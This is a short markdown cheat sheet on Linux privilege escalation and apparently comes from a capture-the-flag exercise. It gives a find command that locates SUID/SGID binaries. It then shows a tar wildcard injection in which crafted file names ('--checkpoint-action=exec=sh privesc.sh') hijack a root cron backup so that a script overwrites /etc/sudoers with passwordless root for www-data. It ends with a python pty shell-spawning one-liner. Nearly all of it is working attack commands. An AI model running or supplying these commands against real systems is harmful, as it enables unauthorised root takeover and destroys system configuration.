

# Privilege Escalation

Use vulnerable vi



Find for SUID

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Start param on cron job

```
tar cf /home/milesdyson/backups/backup.tgz *
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

Spawn proper shell with python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
